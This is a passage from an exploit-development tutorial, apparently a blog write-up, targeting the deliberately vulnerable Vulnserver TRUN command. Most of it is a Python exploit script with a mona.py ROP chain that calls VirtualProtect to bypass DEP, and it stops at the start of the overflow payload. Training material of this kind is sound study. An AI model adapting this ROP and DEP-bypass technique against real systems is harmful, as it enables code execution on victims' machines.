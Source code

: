 ``` python

  rop_chain = create_rop_chain()
```

You can see that the registers are arranged exactly as we wanted.

We can incorporate that function in our exploit:

``` python
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
```